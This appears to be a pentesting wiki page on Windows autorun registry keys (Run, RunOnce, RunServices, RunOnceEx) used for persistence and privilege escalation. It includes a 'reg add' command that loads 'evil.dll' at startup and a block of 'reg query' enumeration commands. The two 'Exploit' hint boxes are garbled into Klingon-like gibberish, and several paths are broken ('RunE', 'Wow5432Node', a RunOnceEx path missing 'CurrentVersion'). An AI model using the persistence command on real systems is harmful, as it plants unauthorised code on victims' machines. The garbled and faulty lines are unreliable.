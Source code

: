 Registry keys known as **Run** and **RunOnce** are designed to automatically execute programs every time a user logs into the system. The command line assigned as a key's data value is limited to 260 characters or less.

**Service runs** (can control automatic startup of services during boot):

* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices`
* `HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices`

**RunOnceEx:**

* `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx`
* `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnceEx`

On Windows Vista and later versions, the **Run** and **RunOnce** registry keys are not automatically generated. Entries in these keys can either directly start programs or specify them as dependencies. For instance, to load a DLL file at logon, one could use the **RunOnceEx** registry key along with a "Depend" key. This is demonstrated by adding a registry entry to execute "C:\\temp\\evil.dll" during the system start-up:
```
reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx\\0001\\Depend /v 1 /d "C:\\temp\\evil.dll"
```
{% hint style="info" %}
**Exploit 1**: QaStaHvIS **HKLM** Daq registry vItlhutlhlaHbe'chugh, vaj 'oH **HKLM** Daq registry vItlhutlhlaHbe'chugh log vItlhutlhlaHbe'chugh user vItlhutlhlaHbe'chugh vaj vItlhutlhlaHbe'chugh.
{% endhint %}

{% hint style="info" %}
**Exploit 2**: QaStaHvIS **HKLM** Daq registry vItlhutlhlaHbe'chugh, vaj 'oH **HKLM** Daq registry vItlhutlhlaHbe'chugh binary vItlhutlhlaHbe'chugh vaj vItlhutlhlaHbe'chugh binary vItlhutlhlaHbe'chugh backdoor vItlhutlhlaHbe'chugh log vItlhutlhlaHbe'chugh user vItlhutlhlaHbe'chugh vaj vItlhutlhlaHbe'chugh.
{% endhint %}
```bash
#CMD
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunE

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices
reg query HKCU\Software\Wow5432Node\Microsoft\Windows\CurrentVersion\RunServices

reg query HKLM\Software\Microsoft\Windows\RunOnceEx
```